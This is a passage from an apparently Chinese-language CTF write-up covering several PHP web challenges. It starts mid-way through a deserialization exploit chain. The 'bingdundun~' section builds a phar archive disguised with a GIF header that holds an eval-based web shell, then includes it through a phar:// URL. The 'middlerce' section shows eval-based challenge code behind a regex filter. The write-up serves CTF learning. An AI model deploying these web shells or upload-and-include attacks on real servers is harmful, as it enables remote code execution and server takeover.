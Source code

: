 ```php
    {
        $this->$name = $value;
        if ($this->fun = "sixsixsix") {
            strtolower($this->a);
        }
    }
}
$a=new TianXiWei();
$a->ext=new Ilovetxw();
$a->ext->huang=new four();
$a->ext->huang->a=new Ilovetxw();
$a->ext->huang->a->su=new NISA();
echo urlencode(serialize($a));
?>

```

##  bingdundun~

考点：phar文件上传getshell

提示可以上传压缩包，所以就想到了`zip协议`和`phar协议`

这儿是一个index（代码自动补充后缀`.php`）的文件内容打开，说明可能是一个文件包含

![image-20220713150032036](C:/Users/15908387732/AppData/Roaming/Typora/typora-user-images/image-20220713150032036.png)



```php
<?php
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("test.php", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>
```

生成后phar需要改成`zip`后缀（phar文件和zip文件都是压缩性文件）直接上传，然后包含

```
http://1.14.71.254:28458/?bingdundun=phar:///var/www/html/e4fc58499d8c95a560b2fe3c6de98776.zip/test
```

##  middlerce

考点：绕过preg_match实现RCE

```php
<?php
include "check.php";
if (isset($_REQUEST['letter'])){
    $txw4ever = $_REQUEST['letter'];
    if (preg_match('/^.*([\w]|\^|\*|\(|\~|\`|\?|\/| |\||\&|!|\<|\>|\{|\x09|\x0a|\[).*$/m',$txw4ever)){
        die("再加把油喔");
    }
    else{
        $command = json_decode($txw4ever,true)['cmd'];
        checkdata($command);
        @eval($command);
    }
}
else{
    highlight_file(__FILE__);
}
```